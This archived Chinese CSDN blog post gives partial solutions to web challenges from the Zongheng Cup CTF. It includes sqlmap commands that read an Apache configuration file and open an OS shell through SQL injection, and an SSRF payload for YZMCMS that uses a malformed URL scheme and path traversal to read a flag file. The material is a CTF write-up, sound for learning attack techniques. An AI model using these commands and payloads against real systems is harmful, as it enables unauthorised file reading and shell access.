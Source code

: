 <!--yml
category: 未分类
date: 2022-04-26 14:30:38
-->

# 纵横杯CTF部分WEB题解_ChenZIDu的博客-CSDN博客

> 来源：[https://blog.csdn.net/chenzidu/article/details/111792190](https://blog.csdn.net/chenzidu/article/details/111792190)

# easyci

一道SQL注入题，大概思路：sql注入写入shell，读取flag文件。
sqlmap先读取"/etc/apache2/apache2.conf"内容。

```
sqlmap -u http://eci-2ze0xe7juyhmgubdhea1.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --threads=10 --file-read="/etc/apache2/apache2.conf" 
```

![在这里插入图片描述](img/e80201ab17266f29af5470c68f7abeee.png)

发现绝对路径（/var/sercet/html）再写入shell

```
sqlmap -u http://eci-2ze3qpk9e6qoggl1cuol.cloudeci1.ichunqiu.com/public/index.php/home/login --data "username=admin&password=1" -p username --technique B --dbms mysql --os-shell 
```

# ezcms

参考文章：
[YZMCMS V5.3后台 SSRF](https://www.cnblogs.com/Spec/p/11188198.html)
[Bug #76857 Can read “non-existant” files](https://bugs.php.net/bug.php?id=76857)

这边主要是因为如果将不支持的协议的URL传递给文件系统
功能，则它们会将其视为本地文件路径,这边必须请求http或者https,所以构造一个httpssss即可。
远程vps利用python起一个web服务。

```
python3 -m http.server 80 
```

![在这里插入图片描述](img/6f6a5eb00d9fb22a51e4efc158e1956d.png)

伪造文件

```
<test123><a href="httppp://sdxcas.com/../../../../../../../../../../../../../flag">123</a></test123> 
```

测试读取

![在这里插入图片描述](img/559ea27e0f373791b5c8444613a7ba8e.png)